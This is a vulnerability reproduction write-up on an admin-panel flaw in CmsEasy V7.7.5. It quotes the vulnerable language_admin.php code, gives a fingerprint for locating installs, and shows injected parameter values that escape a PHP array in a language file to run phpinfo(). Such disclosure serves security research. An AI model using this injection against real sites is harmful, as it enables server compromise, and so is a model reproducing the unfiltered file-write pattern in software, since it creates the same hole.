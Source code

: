 # CmsEasy language_admin.php background command execution vulnerability

## Vulnerability Description

There is a command execution vulnerability in the background of CmsEasy. Some files are written through the file language_admin.php, resulting in arbitrary files being written.

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">CmsEasy V7.7.5_20210919</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="cmseasyedit" </span>

## Environment construction

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba-20220313235033013.png)

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a-20220313235034285.png)

The vulnerable file is `lib/admin/language_admin.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632731716459-d529c18d-4ef7-439d-8f89-67046487db78.png)

```php
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

Visit this page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632731775416-f1f75d5f-ced3-4d63-8ecd-f9728e3e785c.png)

There are three parameters, namely `key , cnnote , val`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632731945111-a0cb2f4a-4ab8-4f77-a026-368341754607.png)

After passing in the parameters, check the `lang/cn/system_custom.php` file

```php
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

Since the incoming parameters are not filtered, the array can be escaped by writing special parameters to cause command execution

Pass two parameters

```php
test1  test2  test3);
```

File content after writing

```php
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

Pass the parameters again

```php
test4  ,test5, 	,phpinfo());/*
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632732559691-eed0b63a-9beb-44fc-ac7c-8bb456eaea14.png)

File content after writing

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632732579899-4659ac1d-b516-4960-93ad-c4fdf4800db5.png)

Access file `/lang/cn/system_custom.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632732628987-af135049-37e0-4dcd-bad7-04d53985c677.png)



If you gain something, just like it
